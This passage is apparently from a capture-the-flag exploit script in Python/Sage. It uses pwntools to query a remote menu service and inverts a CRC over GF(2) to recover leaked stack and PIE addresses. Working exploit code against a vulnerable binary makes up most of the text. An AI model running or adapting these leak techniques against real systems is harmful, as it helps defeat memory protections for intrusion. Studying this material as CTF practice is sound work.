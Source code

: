```py
    return M.inverse()

M_inv = preprocess()

io = pwn.remote(IP, PORT)
# pwn.context.log_level = "DEBUG"
pwn.context.arch = "x86_64"


"""
gef➤  x/10gx $rdi
0x7fffffffdd90: 0x00007fffffffddc0      0x00005555555553da
0x7fffffffdda0: 0x00007fffffffdf28      0x00007fffffffddd0
0x7fffffffddb0: 0x0000555555557d90      0x0000002800000040
0x7fffffffddc0: 0x00007fffffffde00      0x000055555555546b
0x7fffffffddd0: 0x0000000000000000      0x0000000000000000
0x7fffffffdde0: 0x0000000000000000      0x0000000000000000
0x7fffffffddf0: 0x00007fffffffdf28      0x46a64fd70c389600
0x7fffffffde00: 0x00007fffffffde10      0x00005555555554f1
0x7fffffffde10: 0x0000000000000001      0x00007ffff7db3d90
"""

def read(msg: bytes):
    io.sendlineafter(b"Choose >\n", b"1")
    io.send(msg)

def write(d: int):
    io.sendlineafter(b"Choose >\n", b"2")
    io.sendline(str(d).encode())
    return int(io.recvline(keepends=False), 16)

def crc(data, crc_base=0):
    crc = crc_base
    for byte in data:
        crc ^^= byte << (64 - 8)
        for _ in range(8):
            if crc & (1 << 63):
                crc = (crc << 1) ^^ p
            else:
                crc <<= 1
    return crc & 0xFFFFFFFF_FFFFFFFF

def crc_rev(target_raw: int, base=0):
    target = vector(GF(2), [(target_raw & (1 << i)) >> i for i in range(64)])
    result = base
    recovered = M_inv * target
    for i in range(len(recovered)):
        result ^^= Integer(recovered[i]) * (1 << i)
    return result

leak_0x28 = write(0x28)
leak_0x30 = write(0x28 + 8)
leak_0x38 = write(0x28 + 8 * 2)
leak_0x40 = write(0x28 + 8 * 3)
assert leak_0x30 == crc(pwn.p32(0x28 + 8) + pwn.p32(0x28), leak_0x28)

base_data = pwn.p32(0x28 + 8 * 2) + pwn.p32(0x28)
stack_leak_big_endian = crc_rev(leak_0x38, base=crc(base_data, leak_0x28))
stack_leak = pwn.u64(pwn.p64(stack_leak_big_endian)[::-1])
pwn.log.info(f"stack_leak leak = {hex(stack_leak)}")

base_data = pwn.p32(0x28 + 8 * 3) + pwn.p32(0x28) + pwn.p64(stack_leak)
pie_leak_big_endian = crc_rev(leak_0x40, base=crc(base_data, leak_0x28))
```